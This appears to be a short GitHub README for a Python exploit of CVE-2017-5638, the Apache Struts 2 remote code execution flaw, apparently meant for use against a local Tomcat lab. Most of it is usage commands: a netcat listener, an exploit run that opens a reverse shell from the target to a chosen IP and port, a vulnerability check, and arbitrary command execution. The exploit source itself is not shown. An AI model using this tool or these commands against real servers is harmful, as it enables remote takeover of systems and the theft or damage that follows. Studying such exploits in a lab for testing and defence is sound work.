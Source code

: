 # CVE-2017-5638
Apache Struts 2 Vulnerability Remote Code Execution

Reverse shell from target

Author: anarc0der - github.com/anarcoder

Tested with tomcat8

Install tomcat8

Deploy WAR file https://github.com/nixawk/labs/tree/master/CVE-2017-5638

Ex:

Open: $ nc -lnvp 4444

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --ip=127.0.0.1 --port=4444

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --test

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --cmd='uname -a'

<img src="http://i.imgur.com/o5y9drq.jpg">
